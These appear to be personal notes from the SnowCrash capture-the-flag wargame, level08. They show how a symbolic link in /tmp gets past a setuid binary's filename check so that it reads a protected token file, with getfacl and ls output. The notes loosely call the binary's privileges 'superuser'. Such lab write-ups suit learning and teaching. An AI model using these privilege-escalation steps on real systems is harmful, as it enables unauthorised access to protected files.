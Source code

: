 ### binary

a binary named level08 and file named token are present in the home
both files are owned by flag08 but the binary is executable by level08
-> it takes a file as parameter and echo the contents of that file. It refuses a file named 'token'
we can assume it can read the content of the token file but reject its name -> rename token file without permission to read
the size of the token file indicates that it can be the flag for level08

-> read it with symbolic links 


```ln -s ~/token /tmp/file```
```./level08 /tmp/file``` = token



find a folder that can be readable and writable by user :
```find / -writable 2>/dev/null```



### see extended permissions of a file
```getfacl level08 ```
file: level08
owner: flag08
group: level08
flags: ss-
user::rwx
group::---
group:level08:r-x
group:flag08:r-x
mask::r-x
other::---

we can see that the binary is setiud and setgid :
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08

-> it executes with superuser permissions

more info on the subject : https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/
